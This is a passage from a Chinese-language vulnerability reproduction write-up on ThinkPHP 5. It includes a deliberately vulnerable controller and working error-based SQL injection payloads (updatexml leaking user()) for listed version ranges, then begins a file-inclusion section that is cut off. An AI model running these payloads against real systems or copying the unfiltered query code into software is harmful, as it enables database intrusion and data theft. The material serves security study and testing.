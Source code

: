   **漏洞分析参考：**  
https://www.freebuf.com/column/206599.html

  **漏洞复现（内网环境）**  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**

```
class Index

{

    public function index()

    {

        $options = request()->get('options');

        $result = db('user')->max($options);

        var_dump($result);

    }

}
```

**Poc/exp:**  
不同版本 payload 需稍作调整  
**5.0.0~5.0.21 、 5.1.3～5.1.10：**

```
/index/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from user%23
```

**5.1.11～5.1.25：**

```
/index/index/index?options=id)%2bupdatexml(1,concat(0×7,user(),0x7e),1) from user%23`
```

[![](http://zone.secevery.com/uploads/article/20191220/939d6f3e1692fbbf6c6cc00a6a427fe0.png)](http://zone.secevery.com/uploads/article/20191220/939d6f3e1692fbbf6c6cc00a6a427fe0.png)

  **0x03ThinkPHP 文件包含漏洞**

  **一，ThinkPHP5 文件包含漏洞**  
**漏洞介绍**  
本次漏洞存在于 ThinkPHP 模板引擎中，在加载模版解析变量时存在变量覆盖问题，而且程序没有对数据进行很好的过滤，最终导致文件包含漏洞的产生。

  **影响版本**   
5.0.0<=ThinkPHP5<=5.0.18、5.1.0<=ThinkPHP<=5.1.10

  **漏洞分析参考：**  
https://www.freebuf.com/column/207878.html

  **漏洞复现（内网环境）**  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**
